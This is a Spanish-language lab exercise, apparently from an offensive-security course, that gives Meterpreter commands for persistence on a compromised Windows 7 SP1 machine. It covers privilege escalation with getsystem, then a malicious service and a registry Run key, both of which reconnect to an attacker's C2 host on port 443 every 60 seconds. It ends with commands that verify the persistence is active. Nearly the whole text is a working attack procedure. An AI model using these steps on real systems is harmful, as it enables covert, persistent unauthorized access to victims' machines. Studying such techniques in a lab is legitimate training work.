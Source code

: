 # Práctica 04: Ejecución de la Persistencia en Windows 7 SP1
## ✅ 1️⃣ Persistencia mediante un Servicio en Windows 7 SP1
### 📌 Objetivo:
Crear un servicio fraudulento que mantenga la conexión con el servidor C2 de Metasploit.

Pasos en Kali Linux (desde Meterpreter):
#### 1️⃣ Abrir una sesión de Meterpreter en la máquina comprometida
Si ya tienes una sesión activa, conéctate a ella:

```bash
sessions -l  # Lista las sesiones activas
sessions -i [ID]  # Conéctate a la sesión
```
#### 2️⃣ Verificar permisos elevados:

```bash
getsystem  # Intentar obtener permisos de NT AUTHORITY\SYSTEM
```
Si no funciona, intenta con:

```bash
run post/windows/escalate/getsystem
```
#### 3️⃣ Utilizar el módulo de persistencia en servicio:

```bash
run persistence -S -U -i 60 -p 443 -r 10.0.2.Y
```
### 📌 Explicación de los parámetros:

- S → Instala la persistencia como un servicio.
- U → Ejecuta el payload con privilegios de usuario.
- i 60 → Intenta reconectar cada 60 segundos.
- p 443 → Utiliza el puerto 443 para la conexión reversa.
- r 10.0.2.Y → Dirección IP de la máquina Kali Linux.
#### 4️⃣ Validar que el servicio se ha creado:

```bash
shell
sc query | findstr /i "metasploit"
```
Si aparece un servicio sospechoso, significa que la persistencia está activa.

## ✅ 2️⃣ Persistencia a través del Registro de Windows
### 📌 Objetivo:
Modificar el registro de Windows para que la conexión al servidor C2 se active en cada inicio de sesión.

Pasos en Kali Linux (desde Meterpreter):
#### 1️⃣ Crear una clave de registro con un payload persistente:

```bash
run persistence -U -i 60 -p 443 -r 10.0.2.Y
```
📌 Esto agrega un valor en:

```plaintext
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
```
Cada vez que el usuario inicie sesión, la conexión con el servidor C2 se reestablecerá.

#### 2️⃣ Verificar que la clave se ha creado correctamente:

```bash
shell
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```
Si aparece una entrada sospechosa apuntando a un ejecutable de Metasploit, significa que la persistencia está activa.